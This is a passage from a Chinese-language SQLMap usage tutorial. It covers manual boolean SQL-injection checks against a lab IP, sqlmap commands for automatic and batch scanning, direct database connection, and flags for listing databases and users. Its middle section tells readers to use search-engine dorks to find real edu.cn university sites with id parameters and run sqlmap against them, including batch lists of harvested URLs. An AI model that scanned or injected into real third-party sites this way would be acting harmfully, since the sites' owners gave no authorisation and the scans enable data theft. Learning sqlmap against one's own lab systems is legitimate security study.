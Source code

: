 原始网页：[http://192.168.136.131/sqlmap/mysql/get_int.php?id=1](http://192.168.136.131/sqlmap/mysql/get_int.php?id=1)

构造url1：[http://192.168.136.131/sqlmap/mysql/get_int.php?id=1+AND+1=1](http://192.168.136.131/sqlmap/mysql/get_int.php?id=1+AND+1=1)

构造url2：[http://192.168.136.131/sqlmap/mysql/get_int.php?id=1+AND+1=2](http://192.168.136.131/sqlmap/mysql/get_int.php?id=1+AND+1=2)

如果url1访问结果跟原始网页一致，而url2跟原始网页不一致，有出错信息或者显示内容不一致，则证明存在SQL注入。

**2. sqlmap自动检测**

检测语法：sqlmap.py -u [http://192.168.136.131/sqlmap/mysql/get_int.php?id=1](http://192.168.136.131/sqlmap/mysql/get_int.php?id=1)

技巧：在实际检测过程中，sqlmap会不停的询问，需要手工输入Y/N来进行下一步操作，可以使用参数“--batch”命令来自动答复和判断。

**3. 寻找和判断实例**

通过百度对“inurl:news.asp?id=site:edu.cn”、“inurl:news.php?id= site:edu.cn”、“inurl:news.aspx?id=site:edu.cn”进行搜索，搜索news.php/asp/aspx，站点为edu.cn，如图1所示。随机打开一个网页搜索结果，如图2所示，如果能够正常访问，则复制该URL地址。

![超详细SQLMap使用攻略及技巧](https://image.3001.net/images/20180308/1520507686511.jpg!small)  

图1搜索目标

![图2测试网页能否正常访问.jpg](https://image.3001.net/images/20180308/15205077083421.jpg!small)  

图2测试网页能否正常访问

  将该url使用sqlmap进行注入测试，如图3所示，测试结果可能存在SQL注入，也可能不存在SQL注入，存在则可以进行数据库名称，数据库表以及数据的操作。本例中是不存在SQL注入漏洞。

![图3检测URL地址是否存在漏洞.jpg](https://image.3001.net/images/20180308/15205077258489.jpg!small)  

图3检测URL地址是否存在漏洞

**4. 批量检测**

将目标url搜集并整理为txt文件，如图4所示，所有文件都保存为tg.txt，然后使用“sqlmap.py-m tg.txt”，注意tg.txt跟sqlmap在同一个目录下。

![图4批量整理目标地址.jpg](https://image.3001.net/images/20180308/15205077458774.jpg!small)  

图4批量整理目标地址

### 1.4.2 直接连接数据库

sqlmap.py -d"mysql://admin:admin@192.168.21.17:3306/testdb" -f --banner --dbs--users

### 1.4.3数据库相关操作

1.列数据库信息：--dbs

2.web当前使用的数据库--current-db

3.web数据库使用账户--current-user

4.列出sqlserver所有用户 --users
